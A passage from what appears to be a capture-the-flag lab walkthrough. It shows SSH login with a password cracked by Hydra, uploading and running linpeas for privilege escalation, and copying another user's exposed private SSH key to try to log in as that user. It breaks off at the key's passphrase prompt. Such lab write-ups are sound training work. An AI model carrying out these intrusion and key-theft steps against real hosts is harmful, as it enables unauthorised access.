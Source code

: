 **Observed result:** Hydra discovered the password for `jan` as `Armando` (case-sensitive).

- Connect via SSH with the discovered credentials:
  ```bash
  ssh jan@10.10.100.180
  # when prompted, enter: Armando
  ```
- After login, run:
  ```bash
  ls -la
  ```
  to inspect files and permissions in the current directory. Note the visible directories (such as `/home/kay`) but limited privileges as `jan` (no sudo).

---

## 6) PRIVILEGE ESCALATION WITH LINPEAS
### Goal
Locate potential privilege escalation artifacts and credentials on the host.

### Steps & Commands
- From the attacker VM, copy `linpeas.sh` to the target's writable temporary directory (`/dev/shm`) using `scp`:
  ```bash
  scp /opt/linPEAS/linpeas.sh jan@10.10.100.180:/dev/shm
  # enter password: Armando
  ```
  - *Explanation:* `scp` securely copies the local `linpeas.sh` script to the target. `/dev/shm` is a common writable and volatile directory for temporary uploads.

- On the SSH session as `jan`:
  ```bash
  cd /dev/shm
  ls -la
  chmod +x linpeas.sh
  ./linpeas.sh | tee linlog.txt
  ```
  - *Explanation:* Make the script executable and run it; `tee` saves the output to `linlog.txt` for later review.

**Observed result from linpeas output:** In the SSH/SSL section, linpeas reported a private SSH key found at `/home/kay/.ssh/id_rsa` (permission/configuration indicated the file is present and readable to the jan user). This is a common privesc vector — exposed private keys can allow lateral or privilege escalation if the key is valid.

---

## 7) USING THE DISCOVERED SSH KEY (initial attempt)
### Goal
Try to use the discovered key to access `kay`'s account.

### Steps
- From the attacker VM, create a local file to store the key content (copy-paste the key from the linpeas output). For example, save it as `kay_id_rsa` and set strict permissions:
  ```bash
  nano kay_id_rsa     # paste the key content, save and exit
  chmod 600 kay_id_rsa
  ```
- Attempt SSH using the private key:
  ```bash
  ssh -i kay_id_rsa kay@10.10.100.180
  ```
- *Observed outcome:* The key is password-protected (encrypted) — SSH prompts for the key passphrase (so the private key alone was not sufficient).
